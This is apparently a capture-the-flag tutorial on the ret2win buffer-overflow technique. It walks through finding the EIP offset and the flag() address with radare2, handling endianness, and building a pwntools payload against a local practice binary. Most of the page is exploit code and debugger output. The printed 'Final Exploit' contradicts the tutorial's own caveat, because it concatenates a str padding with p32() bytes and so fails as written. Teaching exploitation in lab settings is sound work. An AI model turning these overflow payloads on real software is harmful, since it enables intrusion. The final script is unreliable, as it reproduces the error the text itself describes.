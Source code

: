 ```yaml
---
description: 'One of the most basic binexp challenges of all, the ret2win'
---
```


# ret2win

A **ret2win** is simply a binary where there is a `win()` function \(or equivalent\); once you successfully redirect execution there, you complete the challenge.

To carry this out, we have to leverage what we learnt in the **introduction**, but in a _predictable manner_ - we have to overwrite EIP, but to a specific value of our choice.

To do this, what do we need to know? Well, a couple things:

* The padding _until_ we begin to overwrite the EIP
* What value we want to overwrite EIP to

{% file src="../.gitbook/assets/ret2win.zip" caption="ret2win" %}

### Finding the Padding

This can be found using simple trial and error; if we send variable numbers of characters, we can use the `Segmentation Fault` message, in combination with radare2, to tell when we overwrote EIP. There is a better way to do it than simple brute force \(we'll cover this in the next post\), but it'll do for now.

> Note: You may get a segmentation fault for reasons other than overwriting EIP; use a debugger to make sure the padding is correct.

We get an offset of 52 bytes.

### Finding the Address

Now we need to find the address of the `flag()` function in the binary. This is simple.

```text
$ r2 -d -A vuln
$ afl
[...]
0x080491c3    1 43           sym.flag
[...]
```

> Note: `afl` stands for **A**nalyse **F**unctions **L**ist

The `flag()` function is at `0x080491c3`.

### Using the Information

The final piece of the puzzle is to work out how we can send the address we want. If you think back to the introduction, the `A`s that we sent became `0x41` - which is the ASCII code of `A`. So the solution is simple - let's just find the characters with ascii codes `0x08`, `0x04`, `0x91` and `0xc3`.

This is a lot simpler than you might think, because we can specify them in python as hex:

```python
address = '\x08\x04\x91\xc3'
```

And that makes it much easier.

### Putting it Together

Now we know the padding and the value, let's exploit the binary! We can use pwntools to interface with the binary \(check out the pwntools posts for a more in-depth look\).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put in a `pause()` to give us time to attach `radare2` onto the process.

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())      # Receive all the text

pause()

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```text
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```text
[0x08049172]> db 0x080491aa
[0x08049172]> dc
<<press any button on the exploit terminal window>>
hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```

`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** \(the byte with the largest value\) at the smallest memory address, while little-endian does the opposite; most binaries you will come across are little-endian. Essentially, as far as we're concerned, the byte are stored in reverse order in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```text
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address \(you can also remove the `pause()`\)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```text
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:

```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise you will get a

```text
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = 'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```

